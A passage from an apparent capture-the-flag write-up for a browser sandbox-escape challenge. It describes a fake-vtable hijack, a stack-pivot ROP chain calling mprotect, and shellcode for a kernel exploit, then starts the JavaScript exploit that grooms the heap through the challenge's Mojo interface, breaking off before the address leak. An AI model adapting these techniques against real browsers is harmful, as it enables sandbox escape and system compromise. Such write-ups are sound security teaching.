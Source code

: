 * We placed all of our payload ( fake vtable entry, ROP chain and shellcode ) in the heap buffer of `B[2]->numbers_` ( the content of `B[2]->numbers_` is totally controllable, plus there's no size limit ).
* We then modify the vtable of `B[2]` to point to our crafted heap buffer.
* By calling `B[2].ptr.reset()`, it will trigger the destructor of `B[2]` and jump to our fake vtable entry, which points to our stack pivoting ROP gadget: `xchg rax, rsp; add cl, byte ptr [rax - 0x77]; ret;`.
* After stack pivoting, the stack will be migrated to our crafted heap buffer and start doing ROP. Our ROP chain will do `sys_mprotect( heap & ~0xfff, 0x2000, 7 )`, making our crafted heap buffer executable.
* Finally, the ROP chain will jump to our shellcode ( which is also placed on our crafted heap buffer ) and execute our kernel exploit.

Here's our final exploit script for the sandbox challenge ( in a form of a single Javascript file ):

```javascript=
arb = new ArrayBuffer(8);
f64 = new Float64Array(arb);
B64 = new BigInt64Array(arb);

function ftoi(f) {
    f64[0] = f;
    return B64[0];
}

function itof(i) {
    B64[0] = i;
    return f64[0];
}

function pwn_sbx() {
    print('In sbx!');
    (async function pwn() {
        A = [];
        B = [];
        let i = 0;
        
        // First allocate lots of CtfInterfaceImpl object
        for (i = 0 ; i < 0x1000 ; i++) {
            A.push(null);
            A[i] = new blink.mojom.CtfInterfacePtr();
            Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(A[i]).handle);
        }

        // Free all the CtfInterfaceImpl, creating lots of free chunk ( size: 0x20 )
        for (i = 0 ; i < 0x1000 ; i++) {
            A[i].ptr.reset();
        }

        // Re-allocate those 0x20 free chunks with the following allocation sequence: 
        // CtfInterfaceImpl -> size 4 double vector -> CtfInterfaceImpl -> size 4 double vector...
        for (i = 0 ; i < 0x1000 ; i++) {
            B.push(null);
            B[i] = new blink.mojom.CtfInterfacePtr();
            Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(B[i]).handle);
            B[i].resizeVector(0x4); // double vector with size 4 == allocate a 0x20 chunk
        }

        // Write value to B[i] for debug usage
        for (i = 0 ; i < 0x1000 ; i++) {
            await B[i].write(itof(BigInt(i)), 0);
        }

        // leak address from B[2]
```